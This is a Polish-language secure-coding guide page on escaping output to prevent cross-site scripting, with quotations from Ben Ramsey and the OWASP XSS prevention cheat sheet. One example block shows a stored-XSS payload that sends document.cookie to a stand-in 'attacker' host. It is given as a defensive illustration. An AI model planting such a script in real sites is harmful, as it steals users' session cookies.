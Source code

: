 # Escape Output

### Wyjaśnienie jednym akapitem

HTML i inne języki internetowe mieszają zawartość z kodem wykonywalnym - pojedynczy akapit HTML może zawierać wizualną reprezentację danych wraz z instrukcjami wykonywania JavaScript. Podczas renderowania HTML lub zwracania danych z API uważamy, że czysta treść może w rzeczywistości zawierać kod JavaScript, który zostanie zinterpretowany i wykonany przez przeglądarkę. Dzieje się tak na przykład podczas renderowania treści wstawionych przez osobę atakującą do bazy danych - na przykład `<div> <script> // szkodliwy kod </script> </div>`. Można to złagodzić, instruując przeglądarkę, aby traktowała każdą część niezaufanych danych tylko jako treść i nigdy jej nie interpretowała - ta technika nazywa się ucieczką. Wiele bibliotek NPM i silników szablonów HTML zapewnia możliwość zmiany znaczenia (przykład: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). Należy unikać ucieczki nie tylko treści HTML, ale także CSS i JavaScript

### Przykład kodu - Nie umieszczaj niezaufanych danych w swoim HTML

```html
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script
 
 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment
 
 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name
 
 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name
 
 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Przykład kodu - złośliwe treści, które mogą zostać wstrzyknięte do bazy danych

```html
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Cytat na blogu: „Gdy nie chcemy, aby znaki były interpretowane”

Z Bloga [benramsey.com](https://benramsey.com/articles/escape-output/)
> Data may leave your application in the form of HTML sent to a Web browser, SQL sent to a database, XML sent to an RSS reader, WML sent to a wireless device, etc. The possibilities are limitless. Each of these has its own set of special characters that are interpreted differently than the rest of the plain text received. Sometimes we want to send these special characters so that they are interpreted (HTML tags sent to a Web browser, for example), while other times (in the case of input from users or some other source), we don’t want the characters to be interpreted, so we need to escape them.

> Escaping is also sometimes referred to as encoding. In short, it is the process of representing data in a way that it will not be executed or interpreted. For example, HTML will render the following text in a Web browser as bold-faced text because the `<strong>` tags have special meaning:
> ```html
> <strong>This is bold text.</strong>
> ```

<br/><br/>

### Cytat na blogu: "OWASP recommends using a security-focused encoding library"

Z bloga OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Writing these encoders is not tremendously difficult, but there are quite a few hidden pitfalls. For example, you might be tempted to use some of the escaping shortcuts like \" in JavaScript. However, these values are dangerous and may be misinterpreted by the nested parsers in the browser. You might also forget to escape the escape character, which attackers can use to neutralize your attempts to be safe. **OWASP recommends using a security-focused encoding library to make sure these rules are properly implemented**."


<br/><br/>

### Cytat na blogu: "You MUST use the escape syntax for the part of the HTML"

Z bloga OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "But HTML entity encoding doesn't work if you're putting untrusted data inside a `<script>` tag anywhere, or an event handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML document you're putting untrusted data into."
